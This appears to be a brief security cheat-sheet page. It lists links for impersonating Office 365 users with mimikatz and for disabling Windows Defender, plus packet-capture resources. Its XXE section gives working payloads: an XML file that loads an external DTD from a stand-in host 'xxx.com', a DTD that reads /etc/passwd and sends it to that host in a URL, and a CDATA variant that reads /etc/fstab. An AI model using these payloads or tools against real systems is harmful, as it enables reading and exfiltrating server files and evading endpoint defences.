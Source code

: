 ##### Windows

------

###### Office 365

https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/

###### Defender

https://github.com/NYAN-x-CAT/Disable-Windows-Defender



##### XXE

------

payload

main.xml

```xml
<?xml version="1.0"?>
<!DOCTYPE data SYSTEM "http://xxx.com/evil.dtd">
<data>&send;</data>
```



evil.dtd

无XML标记：

```xml-dtd
<!ENTITY % passwd SYSTEM "file:///etc/passwd">
<!ENTITY % wrapper "<!ENTITY send SYSTEM 'http://xxx.com/?%passwd;'>">
%wrapper;
```



有xml标记：

```xml-dtd
<!ENTITY % file SYSTEM "file:///etc/fstab">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % wrapper "<!ENTITY send '%start;%file;%end;'>">
%wrapper;
```



##### Pcap

------

https://malware-traffic-analysis.net
https://github.com/secureworks/dalton

科来数据包播放器



